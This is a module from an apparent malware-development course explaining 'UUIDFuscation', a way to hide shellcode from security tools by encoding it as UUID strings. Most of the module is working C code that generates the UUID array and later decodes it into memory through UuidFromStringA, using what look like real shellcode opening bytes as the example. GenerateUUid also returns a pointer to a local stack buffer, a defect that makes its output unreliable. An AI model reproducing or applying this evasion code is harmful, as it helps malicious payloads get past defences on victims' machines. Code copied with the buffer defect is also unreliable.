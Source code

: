 23. Payload Obfuscation - UUIDFuscation# [**23. Payload Obfuscation - UUIDFuscation**](https://maldevacademy.com/modules/23)

## **Payload Obfuscation - UUIDFuscation**

### **Introduction**

In this module, another obfuscation technique is covered which converts shellcode to a Universally Unique IDentifier (UUID) string. UUID is a 36-character alphanumeric string that can be used to identify information.

### **UUID Structure**

The UUID format is made up of 5 segments of different sizes which look something like this: `801B18F0-8320-4ADA-BB13-41EA1C886B87`. The image below illustrates the UUID structure.

[![](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuid.png)](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuid.png)Converting UUID to shellcode is a little less straightforward than the previous obfuscation methods. For example `FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51` does **not** translate into `FC4883E4-F0E8-C000-0000-415141505251`, instead, it becomes `E48348FC-E8F0-00C0-0000-415141505251`.

Notice that the first 3 segments are using the same bytes in our shellcode but the order is in reverse. The reason is that the first three segments use [little-endian](https://en.wikipedia.org/wiki/Endianness) byte ordering. To ensure complete understanding, the segments are broken down below.

### **Little Endian**

* Segment 1: `FC 48 83 E4` becomes `E4 83 48 FC` in the UUID string
* Segment 2: `E8 F0` becomes `F0 E8` in the UUID string
* Segment 3: `C0 00` becomes `00 C0` in the UUID string

### **Big Endian**

* Segment 4: `00 00` becomes `00 00` in the UUID string
* Segment 5: `41 51 41 50 52 51` becomes `41 51 41 50 52 51` in the UUID string

### **UUIDFuscation Implementation**

A UUID address is made up of 16 bytes, therefore the shellcode should be a multiple of 16. UUIDFuscation will resemble IPv6Fuscation closely due to both requiring shellcode multiples of 16 bytes. Again, padding can be used if the shellcode doesn't meet that requirement.


```
// Function takes in 16 raw bytes and returns them in a UUID string format
char* GenerateUUid(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {

	// Each UUID segment is 32 bytes
	char Output0[32], Output1[32], Output2[32], Output3[32];

	// There are 4 segments in a UUID (32 * 4 = 128)
	char result[128];

	// Generating output0 from the first 4 bytes
	sprintf(Output0, "%0.2X%0.2X%0.2X%0.2X", d, c, b, a);

	// Generating output1 from the second 4 bytes
	sprintf(Output1, "%0.2X%0.2X-%0.2X%0.2X", f, e, h, g);

	// Generating output2 from the third 4 bytes
	sprintf(Output2, "%0.2X%0.2X-%0.2X%0.2X", i, j, k, l);

	// Generating output3 from the last 4 bytes
	sprintf(Output3, "%0.2X%0.2X%0.2X%0.2X", m, n, o, p);

	// Combining Output0,1,2,3 to generate the UUID
	sprintf(result, "%s-%s-%s%s", Output0, Output1, Output2, Output3);

	//printf("[i] result: %s\n", (char*)result);
	return (char*)result;
}



// Generate the UUID output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateUuidOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
	// If the shellcode buffer is null or the size is not a multiple of 16, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0) {
		return FALSE;
	}
	printf("char* UuidArray[%d] = { \n\t", (int)(ShellcodeSize / 16));

	// We will read one shellcode byte at a time, when the total is 16, begin generating the UUID string
	// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
	int c = 16, counter = 0;
	char* UUID = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {
		// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the UUID string
		if (c == 16) {
			counter++;

			// Generating the UUID string from 16 bytes which begin at i until [i + 15]
			UUID = GenerateUUid(
				pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
				pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
				pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
				pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
			);
			if (i == ShellcodeSize - 16) {

				// Printing the last UUID string
				printf("\"%s\"", UUID);
				break;
			}
			else {
				// Printing the UUID string
				printf("\"%s\", ", UUID);
			}
			c = 1;
			// Optional: To beautify the output on the console
			if (counter % 3 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
	printf("\n};\n\n");
	return TRUE;
}

```
### **UUID Deobfuscation Implementation**

Although different segments have different endianness, that will not affect the deobfuscation process because the [UuidFromStringA](https://learn.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa) WinAPI takes care of this.


```
typedef RPC_STATUS (WINAPI* fnUuidFromStringA)(
	RPC_CSTR	StringUuid,
	UUID*		Uuid
);

BOOL UuidDeobfuscation(IN CHAR* UuidArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

        PBYTE          pBuffer         = NULL,
                       TmpBuffer       = NULL;

        SIZE_T         sBuffSize       = NULL;

        RPC_STATUS     STATUS          = NULL;

	// Getting UuidFromStringA address from Rpcrt4.dll
	fnUuidFromStringA pUuidFromStringA = (fnUuidFromStringA)GetProcAddress(LoadLibrary(TEXT("RPCRT4")), "UuidFromStringA");
	if (pUuidFromStringA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of UUID strings * 16
	sBuffSize = NmbrOfElements * 16;

	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Setting TmpBuffer to be equal to pBuffer
	TmpBuffer = pBuffer;

	// Loop through all the UUID strings saved in UuidArray
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one UUID string at a time
		// UuidArray[i] is a single UUID string from the array UuidArray
		if ((STATUS = pUuidFromStringA((RPC_CSTR)UuidArray[i], (UUID*)TmpBuffer)) != RPC_S_OK) {
			// if it failed
			printf("[!] UuidFromStringA Failed At [%s] With Error 0x%0.8X", UuidArray[i], STATUS);
			return FALSE;
		}

		// 16 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 16);

	}

	*ppDAddress = pBuffer;
	*pDSize     = sBuffSize;

	return TRUE;
}

```
The image below shows the deobfuscation process successfully running.

[![](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuidfuscation.png)](23%20Payload%20Obfuscation%20-%20UUIDFuscation%201c2f59cabc354005973cf3e7692586c7/uuidfuscation.png)


